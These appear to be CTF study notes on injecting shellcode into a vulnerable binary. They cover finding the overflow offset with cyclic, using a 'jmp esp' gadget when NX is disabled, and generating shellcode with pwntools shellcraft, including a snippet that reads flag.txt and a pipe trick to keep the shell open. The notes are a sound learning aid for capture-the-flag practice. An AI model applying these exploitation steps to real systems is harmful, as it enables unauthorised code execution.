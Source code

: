 ### N o T e S

---

A shellcode is used when we don't have any interesting function to print the flag for us, so we inject our own code to trick the server to print the flag or escalate privilege. A shellcode in hacking is a small piece of code used as a payload in the exploitation of a vulnerability.
It is called a shell code as it typically starts a command shell from which the attacker can control the compromised machine.

![image](https://github.com/ckc9759/CTF_resources/assets/95117634/064ba5c1-48cf-430e-97e9-6bf21274537b)

```py
Finding the offset | cyclic 100
See the EIP register value
cyclic -l <value>
NX disabled,
jump to ESP and start executing the malicious code.
ropper --file <filename> --search "jmp esp"

Use shellcraft to construct the shell code
```

Python shell code example :

```py
import pwn
pwn.asm('push 0x08048540; ret')

Output --> b'h@\x85\x04\x08\xc3'
```

```py
import pwn
pwn.shellcraft.i386.linux.cat('flag.txt')
Use #Shell-storm on specified system arch, could be intel 386 (i386)
(python -c 'print ...'; cat) | ./program # To keep the shell active 
```

Now we can use this shellcode and supply it as input for the ELF file.

---

#### Injecting shellcode



